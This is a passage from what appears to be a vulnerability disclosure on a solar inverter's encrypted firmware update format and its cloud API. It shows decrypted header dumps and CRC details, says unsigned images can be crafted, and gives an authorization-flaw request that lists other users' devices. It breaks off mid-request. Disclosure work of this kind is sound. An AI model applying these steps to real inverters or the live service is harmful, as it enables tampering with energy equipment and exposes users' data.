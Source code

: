 Here is an example of decrypted `header_2`:
```
Offset(h) 00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

00000040  5B 44 45 56 5D 0D 0A 4D 4F 44 3D 41 47 41 54 45  [DEV]..MOD=AGATE
00000050  2D 53 0D 0A 44 56 45 52 3D 56 31 31 0D 0A 48 56  -S..DVER=V11..HV
00000060  45 52 3D 56 31 31 0D 0A 5B 50 43 42 31 5D 0D 0A  ER=V11..[PCB1]..
00000070  50 4E 3D 31 0D 0A 50 42 4E 4F 3D 50 2D 41 2D 30  PN=1..PBNO=P-A-0
00000080  30 30 30 30 31 0D 0A 50 42 4F 4D 3D 32 30 31 33  00001..PBOM=2013
00000090  30 31 30 37 0D 0A 50 42 53 4E 3D 0D 0A 5B 4D 43  0107..PBSN=..[MC
000000A0  55 31 5D 0D 0A 43 48 49 50 3D 54 4D 53 33 32 30  U1]..CHIP=TMS320
000000B0  46 32 38 33 37 37 0D 0A 4F 53 3D 0D 0A 41 50 50  F28377..OS=..APP
000000C0  3D 53 55 4E 53 54 4F 4E 45 2D 53 5F 30 33 30 31  =SUNSTONE-S_0301
000000D0  31 2E 30 31 2E 31 39 00 00 00 00 00 00 00 00 00  1.01.19.........
```

After `header_2`, a third header called here `header_3` can be found with a length of 79 bytes (ends with `CODE=`):

```
Offset(h) 00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

000000E0  5B 50 43 42 31 5D 0D 0A 5B 4D 43 55 31 5D 0D 0A  [PCB1]..[MCU1]..
000000F0  4F 53 0D 0A 43 52 43 3D 0D 0A 4C 45 4E 3D 0D 0A  OS..CRC=..LEN=..
00000100  43 4F 44 45 3D 0D 0A 41 50 50 0D 0A 43 52 43 3D  CODE=..APP..CRC=
00000110  34 41 20 39 45 20 35 36 20 41 32 20 0D 0A 4C 45  4A 9E 56 A2 ..LE
00000120  4E 3D 32 37 30 33 33 36 0D 0A 43 4F 44 45 3D     N=270336..CODE=
```

This header contains a length field and a CRC field (both UTF-8 encoded). The CRC (called CRC32_3 here) is calculated on the data placed just after `header_3` with a length found in the `LEN` field (here 270336 bytes length / integer; CRC32_3 = `4A 9E 56 A2`). Note that a padding with `0xFF` is added at the end of the decrypted `sgu` file to align the size to 128 bits (AES block length).

Knowing all this information, it is possible to craft a valid firmware update image with a manipulated firmware. No asymmetric signature has been found in the update image.

## Extracting valid serial numbers

Improper authorization enabled an attacker to get information related to any registered user: number of inverters, inverter types, and more important: inverter `uuid`. 

Here is the API call endpoint:
```
https://gateway.isolarcloud.eu/v1/devService/getRemoteUpgradeDeviceList 
```
Here is the plain content of the call:
```json
{
    "sys_code": 0,
    "psIds": "",
    "device_type": 1,
    "device_model_id": "",
    "device_sn": "",
    "user_id": [targeted_user_id],
    "ps_id_list": [],
    "sn_list": [],
    "uuid_list": [],
    "curPage": 1,
    "size": 10,
    "service": "getRemoteUpgradeDeviceList",
    "api_key_param": {
        "timestamp": [timestamp],
        "nonce": "[NONCE]"
    },
    "appkey": "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
    "_vc": "XXXXXXXXXX",
```